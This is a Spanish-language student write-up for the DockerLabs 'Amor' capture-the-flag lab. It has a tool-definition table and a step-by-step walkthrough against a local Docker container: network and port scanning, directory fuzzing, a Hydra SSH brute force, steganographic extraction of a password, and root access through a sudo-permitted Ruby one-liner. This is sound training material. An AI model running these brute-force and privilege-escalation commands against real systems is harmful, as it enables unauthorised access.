 ## DockerLabs - Reto AMOR

1. Realizar una investigación individual de cada una de las herramientas empleadas. Sintetice el resultado mediante un cuadro que explique su definición, funcionalidad y casos de uso.
## RTA

Este laboratorio forma parte de la plataforma DockerLabs y corresponde a un reto de dificultad Fácil. Tiene como objetivo introducir herramientas básicas de pentesting sobre entornos Docker usando técnicas de escaneo, fuerza bruta y esteganografía.

| **HERRAMIENTA** | **DEFINICION** | **FUNCION** | **USOS** |
| :--- | :--- | :--- | :--- |
| **Docker** | Un sistema de virtualización a nivel de sistema operativo que encapsula aplicaciones y sus dependencias en "contenedores" portátiles y autosuficientes. 📦 | Permite la creación y gestión de ambientes controlados y replicables, aislando procesos para análisis de malware o pruebas de concepto sin riesgo para el sistema anfitrión. | Despliegue de *honeypots*, análisis dinámico de malware (*sandboxing*), y entrenamiento en laboratorios de ciberdefensa. |
| **Nmap** | Una utilidad de código abierto para la exploración de redes y la auditoría de seguridad, considerada el estándar de facto en la industria. 🗺️ | Realiza un mapeo de la superficie de ataque de una red, enumerando hosts, puertos abiertos y los servicios que se ejecutan en ellos, incluyendo sus versiones. | Fase de reconocimiento en una prueba de penetración, validación de políticas de firewall y gestión de vulnerabilidades a nivel de red. |
| **Netdiscover** | Un escáner de reconocimiento activo/pasivo que opera principalmente mediante el protocolo de resolución de direcciones (ARP) en redes locales. 🕵️ | Construye un mapa de los dispositivos presentes en un segmento de red (LAN/WLAN), identificando sus direcciones IP y MAC para obtener conciencia situacional. | Detección de dispositivos no autorizados en una red clasificada, inventario rápido de activos en una evaluación de seguridad interna. |
| **Hydra** | Un cracker de credenciales de red en paralelo, diseñado para ser rápido y flexible al auditar la robustez de las autenticaciones. 🔓 | Automatiza los ataques de diccionario y de fuerza bruta contra una amplia gama de protocolos de red para encontrar contraseñas débiles. | Poner a prueba la efectividad de las políticas de contraseñas de la organización y la capacidad de los sistemas para bloquear intentos de acceso no autorizados. |
| **SCP** | Un protocolo de transferencia de archivos que opera sobre un túnel SSH, garantizando la **confidencialidad** e **integridad** de los datos en tránsito. 🔐 | Facilita la copia cifrada de ficheros entre un host local y uno remoto, o entre dos hosts remotos, de forma segura a través de la línea de comandos. | Exfiltración segura de evidencia digital durante una investigación forense, despliegue de herramientas en sistemas remotos comprometidos. |
| **Steghide** | Una utilidad de línea de comandos que implementa técnicas esteganográficas para incrustar información secreta dentro de archivos de imagen y audio. 🖼️ | Inserta un *payload* (carga útil) de datos dentro de un archivo portador (*carrier file*), modificando su estructura de forma imperceptible para el ojo humano. | Análisis esteganográfico para detectar canales de comunicación encubiertos y la exfiltración de datos no autorizada por parte de amenazas internas o externas. |
| **File** | Un comando estándar en sistemas UNIX/Linux que determina la naturaleza de un archivo examinando sus "números mágicos" y no su extensión. 🔍 | Inspecciona los primeros bytes de un archivo para identificar su tipo real, eludiendo intentos de ofuscación mediante el cambio de nombre. | Identificación de malware que se disfraza con extensiones falsas (ej. un `.exe` renombrado a `.pdf`) y triage inicial de evidencia en análisis forense. |

🛠 Prerrequisitos
Sistema base: Kali Linux



Docker instalado:

sudo apt install docker.io

2. Explicar en detalle cada uno de los comandos empleados en el anterior CTF; realizando un desglose del mismo y citando al menos tres alternativas (si aplica) de variantes del comando para las herramientas empleadas, este punto amplia el ejercicio anterior.
   
## RTA. 🚚 Despliegue del Laboratorio
Transferir los archivos del reto:

scp -r amor kali@192.168.1.12:/home/kali/Documents/

Descomprimir recursos (si aplica):

unzip amor.zip
Otorgar permisos y ejecutar:

chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
🔍 Reconocimiento
Obtener interfaz:

ip add
Descubrimiento de red:

sudo netdiscover -i docker0 -r 172.17.0.0/24
Escaneo de puertos:


sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
🌐 Enumeración Web
Accedemos al puerto 80 pero no hay información directa. Se lanza fuzzing:


gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
🔐 Ataque por Fuerza Bruta
Usuarios encontrados en el HTML del sitio: carlota y juan.

Ataque SSH usando Hydra:

bash
Copier
Modifier
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
Accedemos vía SSH:

ssh carlota@172.17.0.2
🖼 Extracción de Evidencia
Navegamos al directorio de imágenes:


cd /carlota/Desktop/fotos/vacaciones
Transferimos la imagen:


scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
Inspeccionamos el tipo de archivo:

file imagen.jpg
🕵‍♀ Esteganografía
Extraemos información oculta:


steghide extract -sf imagen.jpg
Decodificamos el contenido del archivo secreto:

echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo

🧑‍💻 Escalamiento de Privilegios

Accedemos como otro usuario:


su oscar
Comprobamos acceso con sudo:


sudo -l
Acceso a bash mediante Ruby:


sudo /usr/bin/ruby -e 'exec "/bin/bash"'
Verificamos identidad:

whoami



🧾 Cuadro de Herramientas Utilizadas
Se puede consultar el siguiente archivo Excel para la definición, funcionalidad y casos de uso de cada herramienta empleada: Resumen_Herramientas_DockerLabs.xlsx.



🧰 Comandos y Variantes
(Se sugiere agregar un archivo complementario comandos.md con descripciones detalladas de cada comando, sus parámetros y alternativas.)

3. Realice un diagrama de flujo de todo el procedimiento realizado
## RTA
🔁 Diagrama de Flujo
![DIAGRAMA DE FLUJO](Imagenes/ACCC.png)


📌 Créditos
Laboratorio original: dockerlabs.es 
